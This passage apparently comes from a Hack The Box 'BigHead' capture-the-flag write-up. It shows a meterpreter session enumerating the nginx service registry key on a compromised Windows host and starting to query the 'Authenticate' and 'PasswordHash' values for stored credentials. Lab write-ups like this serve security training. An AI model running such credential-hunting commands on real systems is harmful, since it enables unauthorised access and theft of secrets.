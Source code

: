 <br>
![](/images/hackthebox/bighead/103.png)
<br> Then I looked at the values and I found two interesting ones :
`reg enumkey -k 'HKLM\System\CurrentControlSet\Services\nginx`
![](/images/hackthebox/bighead/104.png)
```
meterpreter > reg enumkey -k 'HKLM\System\CurrentControlSet\Services\nginx'
Enumerating: HKLM\System\CurrentControlSet\Services\nginx

  Keys (2):

        Parameters
        Enum

  Values (12):

        Type
        Start
        ErrorControl
        ImagePath
        DisplayName
        ObjectName
        Description
        DelayedAutostart
        FailureActionsOnNonCrashFailures
        FailureActions
        Authenticate
        PasswordHash
```
<br> `Authenticate` and `PasswordHash`. Let's look at the value :
<br> `Authenticate` :
`reg queryval -k 'HKLM\System\CurrentControlSet\Services\nginx' -v Authenticate`